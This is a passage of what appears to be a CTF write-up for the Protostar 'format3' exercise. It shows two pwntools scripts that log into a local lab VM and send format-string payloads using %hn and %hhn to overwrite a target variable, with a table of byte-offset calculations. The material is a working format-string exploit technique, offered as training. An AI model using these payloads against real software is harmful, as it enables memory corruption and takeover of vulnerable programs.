 ### script


```python

target_address = 0x080496f4

def overwrite2_bytes():
    r =ssh(host="192.168.160.128", user='user', password="user")
    format3 = r.run(["/opt/protostar/bin/format3"])

    payload =  p32(target_address) + p32(target_address+2) + b"%21820x"  + b"%12$hnAAAA"    +   b"%43962x"  +  b"%13$hnAAAA" 
    # we control the 12th arguments :
    #   12th argument :  0x080496f4  we will write  0x5544 - 8 = 21820   (8: two times 4 bytes  -> length of address)
    #   13th argument :  0x080496f6  we are going to write: 0x0102 - 0x5544 - 4 but it won't work since 0x0102 - 0x5544 < 0 
    #                     We are going to use a trick 0x10102 - 0x5544 - 4 = 43962 
    #   

    format3.sendline(payload)
    print(format3.recvuntil("target"))
    format3.close()



```


# solution 3: overwrite 1 bytes at a time (approach with %hhn)

The last way to solve it is to change one byte at time:

we need to overwrite target with 0x01025544 (\x44\x55\x02\x01 in  little endian)

read bottom to top:
```

 ^ address     goal         calculation
 |
 | 0x080496f7  0x01         0x101 - 0x02 - 4 =  251
 | 0x080496f6  0x02         0x102 - 0x55 - 4 = 169
 | 0x080496f5  0x55         0x55  - 0x44 -  4 = 13
 | 0x080496f4  0x44         0x44  - (4*4) = 52

```
### script

```python 

target_address = 0x080496f4

def overwrite1_bytes():
    r =ssh(host="192.168.160.128", user='user', password="user")
    format3 = r.run(["/opt/protostar/bin/format3"])

    payload =  p32(target_address) + p32(target_address+1) + p32(target_address+2) + p32(target_address+3)  + b"%52x"  +  b"%12$hhnAAAA"  + b"%13x"  +  b"%13$hhnAAAA"  +   b"%169x"  +  b"%14$hhnAAAA"   +  b"%251x"  +  b"%15$hhnAAAA" 


    format3.sendline(payload)
    print(format3.recvuntil(":)"))
```